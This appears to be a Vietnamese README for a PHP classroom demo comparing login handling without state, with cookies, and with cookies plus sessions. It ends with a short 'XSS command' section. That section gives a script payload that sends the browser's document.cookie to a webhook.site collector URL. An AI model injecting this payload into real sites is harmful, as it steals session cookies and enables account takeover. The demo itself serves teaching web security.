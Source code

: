 # PHP Login Demo: So sánh Cookie vs Session

## 🚀 Cách chạy từng demo

### 1. Demo **không dùng Cookie/Session**

```bash
make run-no-cookie
```
Truy cập: http://localhost:8000

Dữ liệu login không được lưu sau khi chuyển trang. Mỗi trang phải truyền thủ công thông tin người dùng.

### 2. Demo có dùng Cookie

```bash
make run-with-cookie
```
Truy cập: http://localhost:8001  

🔹 Cookie được dùng để lưu user_id phía client.  

🔹 Trình duyệt tự gửi cookie trong mỗi request.  

### 3. Demo có dùng Cookie & Session

```bash
make run-with-cookie-session
```
Truy cập: http://localhost:8002

🔹 PHP sử dụng PHPSESSID trong cookie để map với file session trên server.  

🔹 Dữ liệu người dùng được lưu hoàn toàn ở server qua $_SESSION.  

### 💡 Mục tiêu
So sánh ứng dụng thực tế của Cookie và Session

Giải thích cách duy trì trạng thái đăng nhập

Làm rõ vai trò của từng phương pháp trong lập trình web bằng PHP

### 📜 Tài liệu kèm theo
File trình chiếu LaTeX: session_cookies_presentation.tex và bản PDF tương ứng


### Cau lenh XSS

```bash
<script>
fetch("https://webhook.site/1dbe3a3a-xxxx-xxxx-xxxx-1c3f2d5f5b7c?cookie=" + document.cookie)
</script>
```